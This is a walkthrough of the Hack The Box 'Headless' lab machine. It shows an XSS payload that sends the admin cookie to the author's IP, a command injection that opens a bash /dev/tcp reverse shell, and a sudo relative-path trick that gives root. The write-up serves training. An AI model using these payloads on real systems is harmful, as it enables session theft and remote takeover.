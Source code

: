 # [Headless](https://app.hackthebox.com/machines/Headless) Writeup [HTB]
## ⏯️ Credits
This was my first XXS/command injection challenge, and I was super lost. So I basically followed [this official video](https://www.youtube.com/watch?v=FDCpJbS1OuQ). It was great!

## 🗺️ Exploring the website
We begin by scanning the services that are exposed using `nmap`. 
We discover that port 5000 is open, and it's returning some HTML. Therefore, we connect to it using the browser.

The website appears to be under construction. We also notice that HTTP requests automatically set an `is_admin` cookie:
```
is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
```
We try to see whether it's written in base 64:
```
$ echo InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs | base64 -d
"user"base64: invalid input
```
We deduce that the first part determines our privileges (we are a simple user), while the second part looks like a signature. Interestingly enough, the cookie doesn't change when we reload the page, meaning there's no concept of session, and we can most likely steal the admin cookie.

Finally, we use `feroxbuster` to bruteforce the website directories. We find 2 of them:
- `/support`, containing a POST form;
- `/dashboard`, that we don't have access to (this most likely requires admin privileges).

## 🍪 Playing with the form
The contact form contains the following fields: first name, last name, email, phone number and message. Given that we want to steal that admin cookie, we begin by trying some POC XXS in the message field:
```
<script>alert('AAA')</script>
```
The website is not happy about it, as it returns a "Hacking Attempt Detected" page, stating that the admin will be notified, and printing on screen the header of our POST request. Interesting... 
If the admin visualizes on screen the same exact header of our request, then we can inject some HTML script in it, and get the admin cookie nicely delivered to us!

To do so, we add a new, not-at-all-sketchy cookie: 
```
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs;xxs=<script>fetch("http://10.10.14.136:4815/?"+document.cookie)</script>
```
where `10.10.14.136` is our vpn IP address.

We also open a channel on port 4815 to see our cookie:
```
$ nc -lvnkp 4815
```

We wait a few minutes and... voilà! The admin cookie has been delivered, right at our doorsteps!
```
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

## 🐚 Accessing the dashboard and getting the reverse shell
Now that we got admin privileges, we can easily access to the `/dashboard` page. This is another form-looking thing, asking for a date and retrieving website statistics for it.
We want to get some kind of shell on the app web server, so we try to inject commands in the `date` parameter of the HTTP POST body. As before, we begin with some POC:
```
date=2023-09-15;sleep 2
```
Bingo! The response takes around 2 seconds to arrive, meaning we can inject commands in the web server and get a well deserved reverse shell!
```
date=2023-09-15;bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.136/4815+0>%261'
```
Here we are using the classic `bash -c 'bash -i >& /dev/tcp/10.10.14.136/4815 0>&1'`, which runs an interactive instance of bash and redirects everything to our local web server.

## 🫚 Becoming root and owning the ~~world~~ flag!
Now that we have our shell, we begin with some exploration:
```
$ whoami
dvir
$ sudo -l
[...]
User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```
From the HTB website, we know the flag is in the `/root` directory, which of course is not accessible to our peasant user.
However, we are still allowed to run this `/usr/bin/syscheck` script with root permissions. Interesting... 

The script is not very long. The most interesting part is this "if" clause:
```
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
```
While all the other commands are called with their full name, this `./initdb.sh` script is called with its relative path. Moreover, since it's called by a process with root privileges, it will also have root privileges. Very convenient...

From our home directory (on which we have writing permissions), we create our own `initdb.sh` file. Useless to day, it will **__not__** initialize the database.
```
$ echo bash > initdb.sh
$ chmod +x initdb.sh
```
Now we are ready to run the system check!
```
$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.5G
System load average:  0.00, 0.00, 0.04
Database service is not running. Starting it...
$ whoami
root
$ ls /root
root.txt
$ cat /root/root.txt
<THE FLAG>
```
## 🚩 Conclusion and tools recap
That's all folks!

I really enjoyed this challenge, it was a good starting point for HTB and I learned a lot of useful stuff!

**__Tools recap__**
- `nmap` to scan ports: nmap -sC -sV -p- 10.10.11.8
- `feroxbuster` to bruteforce the website directories: feroxbuster --url http://10.10.11.8:5000 -w ~/snap/feroxbuster/common/raft-medium-directories.txt
- Burp Suite Community Edition to make and intercept HTTP requests


